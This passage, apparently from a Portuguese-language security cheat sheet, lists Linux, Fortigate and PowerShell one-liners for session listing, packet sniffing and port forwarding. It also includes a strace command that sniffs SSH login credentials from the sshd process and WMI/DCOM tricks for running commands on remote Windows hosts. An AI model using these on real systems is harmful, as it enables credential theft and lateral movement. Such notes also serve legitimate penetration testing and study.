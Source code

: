 >
># Para ver sessoes ocultas/sem TTY, basta usar os comandos
> serti@kali> loginctl                          # litar sessoes
> serti@kali> loginctl show-session  [SESSID]   # listar informacoes da sessao 
>```
>
> __Compress Text from PIPE (_`Bash`_)__
>```bash
> echo TextToCompress | gzip -cf | base64 -w0
>```
>
> __Compartilhar um conteudo em texto no site `termbin.com` (_`Bash`_)__
>```bash
> echo teste | nc termbin.com 9999
> # O comando acima ira gerar um link acessivel na internet conteudo o conteudo pipeado
> # Ex: https://termbin.com/46hq 
>```
>
> __Monitorar pacotes direto no Firewall (_`CLI - Fortigate`_)__
>```bash
> # Syntax:
> #     diagnose sniffer packet <interface> <filter> <verbose> <count> <Timestamp format>
> FGT1KD_01_SEDE $ diagnose sniffer packet any 'udp and src host 172.25.131.136 and dst host 172.30.32.68 and dst port 514' 6
>```
>
> __Filtrar pacotes direto no Firewall via TTL (_`CLI - Fortigate`_)__
>```bash
> FGT1KD_01_SEDE $ diagnose sniffer packet any 'udp and port 514 and src host 172.25.131 and ip[8]>126 and ip[8]<129'
>```
>
> __Usar Socat para Redirecionar porta no Linux (_`Bash`_)__
>```bash
> sudo socat TCP-LISTEN:8080,fork,reuseaddr TCP:172.25.131.105:3389
>```
>
> __Sniff credenciais do SSHD proccess no Linux (_`Bash`_)__
>```bash
> sudo strace -t -e read,write,openat -f -p $(pgrep sshd | head -n1) 2>&1 | grep -v "~/.profile" | grep --line-buffered -F -e 'write(5, "\0\0\0\7' -e '\f\0\0\0' -e '.profile'
>```
>
> __Executar comando usando WMIClass (_`Powershell`_)__
>```powershell
># Local
>([WmiClass]"\\.\root\cimv2:Win32_Process").Create("notepad.exe")
>[activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application")).Document.ActiveView.ExecuteShellCommand("notepad.exe",$null,$null,"7")
>[activator]::CreateInstance([type]::GetTypeFromCLSID("{9BA05972-F6A8-11CF-A442-00A0C90A8F39}")).Item().Document.Application.ShellExecute("notepad.exe",$null,$null,$null,"4")
># Remoto
>([WmiClass]"\\192.168.1.2\root\cimv2:Win32_Process").Create("notepad.exe")
>[activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","172.30.200.100")).Document.ActiveView.ExecuteShellCommand("notepad.exe",$null,$null,"7")
>[activator]::CreateInstance([type]::GetTypeFromCLSID("{9BA05972-F6A8-11CF-A442-00A0C90A8F39}","172.30.200.100")).Item().Document.Application.ShellExecute("notepad.exe",$null,$null,$null,"4")
>```
>
